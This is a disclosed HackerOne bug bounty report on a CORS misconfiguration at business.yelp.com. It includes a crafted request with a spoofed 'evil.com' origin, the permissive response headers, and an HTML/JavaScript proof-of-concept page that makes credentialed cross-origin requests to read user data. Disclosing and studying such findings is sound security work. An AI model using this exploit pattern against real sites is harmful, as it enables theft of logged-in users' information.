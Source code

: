 # CORS Misconfiguration on Yelp

## Report Details
- **Report ID**: 1707616
- **URL**: https://hackerone.com/reports/1707616
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-21T16:13:35.691Z
- **Disclosed**: 2022-09-28T03:43:10.963Z

## Reporter
- **Username**: qualw1n
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
## Entry
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page

## Description:
CORS misconfiguration is found on business.yelp.com as Access-Control-Allow-Credentials: true.

## Steps to reproduce:

Visit business site.

## Request
GET /wp-json HTTP/2
Host: business.yelp.com
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Origin: evil.com

## Response
Allow: GET
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true

## POC
<!DOCTYPE html>
<html>
    <head>
        <script>
            function cors() {
                var xhttp=new XMLHttpRequest();
                    xhttp.onreadystatechange= function() {
                        if (this.readyState == 4 && this.status ==200){
                            document.getElementById("emo").innerHTML=alert(this.responseText
                                );
                        }
                };
                xhttp.open('GET',"https://business.yelp.com/wp-json/",true);
                xhttp.withCredentials=true;
                xhttp.send();
            }
        </script>
    </head>
    <body>
        <center>
        <h2>[!]CORS P0C - Qualw1n</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button> 
        </div>
        </center>
    </body>
</html>

## Photo
{F1945188}

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
Also If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.

## Attachments
- image.png
- 2022-09-21_19-12-05.mkv
